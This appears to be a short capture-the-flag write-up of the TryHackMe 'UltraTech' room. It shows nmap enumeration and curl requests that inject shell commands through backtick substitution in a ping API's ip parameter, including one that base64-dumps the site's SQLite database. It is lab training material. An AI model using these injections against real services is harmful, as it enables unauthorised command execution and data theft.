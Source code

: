 
2024-07-11 20:46

Source: #web #youtube 

Tags: [[nmap]]
#### Enumeration 
```
nmap -sCV -v $IP 
```
non-standard port in use?
```
nmap -p- -v $IP
```
1. we find 31331 
2. 8081 has a website hosted that isn't leading anywhere so we try 31331, there we have a proper webpage of ultratech 
3. going to robots.txt we find the site map
#### Exploitation 

we see there is an `api` running that helps in pinging 
```
curl 'http://<ip.address>:8081/ping?ip=`whoami`'
```
above command would otherwise be used to ping an IP address but here with command substitution we can perform command [[injection]] 

since we have an API running we can use `/health` and `/status`

in order to get the data of the [[database]] we try to return the value as a base64 encoding 
```
10.10.65.179:8081/ping?ip=`base64 -w 0 utech.db.sqlite`
```
`-w 0` to make it all one long line
save the file with `.b64` extension 






### References
[TryHackMe | UltraTech](https://tryhackme.com/r/room/ultratech1)

video soln- 
https://www.youtube.com/watch?v=b8hUHRus6cw